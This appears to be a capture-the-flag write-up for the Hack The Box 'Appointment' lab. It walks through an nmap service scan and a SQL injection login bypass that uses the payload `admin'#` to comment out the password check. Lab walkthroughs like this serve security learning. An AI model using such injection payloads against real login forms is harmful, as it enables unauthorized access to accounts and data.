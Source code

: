 # Appointment_HTB

IP: `10.129.3.141`


# Solution

First few questions can be googled so google it and learn because without learning just copy pasting stuff won't work.

For owasp question visit this [link](https://owasp.org/Top10/), Answer is `A03:2021-Injection`

Now let's do a classic stuff, *NMAP SCAN!*

```bash
sudo nmap -sV {IP}
```

`-sV - flag to get version of services`

Output -

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

`Apache httpd 2.4.38 ((Debian))` is running on port `80`. 


### Let's Just not waste time and open the ip address in browser

we will get a login form, most of companies use sql as there database and they don't filter the input user has given to them.

So let's use `#` to comment out sql command which is used in the backend

```bash
select * from users where username={username} and password={password};
```

if we pust `'#` in username and password anything random, Then after the command will something look like.

```bash
select * from users where username=''#' and password=123;
```

But a good practice is to add `admin'#` so you can enter as a admin.


```bash
select * from users where username='admin'#' and password=123;
```

and You got in congrats.